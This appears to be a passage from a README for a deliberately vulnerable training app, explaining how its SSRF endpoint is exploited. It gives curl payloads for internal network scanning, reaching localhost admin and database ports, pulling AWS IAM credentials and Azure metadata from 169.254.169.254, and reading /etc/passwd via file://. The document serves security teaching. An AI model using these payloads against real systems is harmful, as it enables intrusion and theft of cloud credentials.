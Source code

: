 ## How the Exploit Works

### Attack Vectors

#### 1. Internal Network Scanning
```bash
# Scan internal network ranges
curl "http://localhost:5000/api/ssrf/vulnerable?url=http://192.168.1.1"
curl "http://localhost:5000/api/ssrf/vulnerable?url=http://10.0.0.1"
curl "http://localhost:5000/api/ssrf/vulnerable?url=http://172.16.0.1"
```

**What happens:**
- Server makes HTTP requests to internal IP addresses
- Attacker discovers which internal hosts are alive
- Can map internal network topology

#### 2. Localhost Services Access
```bash
# Access local services
curl "http://localhost:5000/api/ssrf/vulnerable?url=http://localhost:8080/admin"
curl "http://localhost:5000/api/ssrf/vulnerable?url=http://127.0.0.1:3306"
```

**What happens:**
- Bypasses firewall rules that block external access
- Accesses services running on localhost
- Can interact with databases, admin panels, or internal APIs

#### 3. Cloud Metadata Exploitation
```bash
# AWS metadata service
curl "http://localhost:5000/api/ssrf/vulnerable?url=http://169.254.169.254/latest/meta-data/"
curl "http://localhost:5000/api/ssrf/vulnerable?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Azure metadata service
curl "http://localhost:5000/api/ssrf/vulnerable?url=http://169.254.169.254/metadata/instance?api-version=2021-02-01"
```

**What happens:**
- Accesses cloud provider metadata services
- Can retrieve IAM credentials, instance information
- Leads to cloud account compromise

#### 4. Protocol Smuggling
```bash
# File protocol (if supported)
curl "http://localhost:5000/api/ssrf/vulnerable?url=file:///etc/passwd"

# FTP protocol
curl "http://localhost:5000/api/ssrf/vulnerable?url=ftp://internal-ftp-server/sensitive-files/"
```
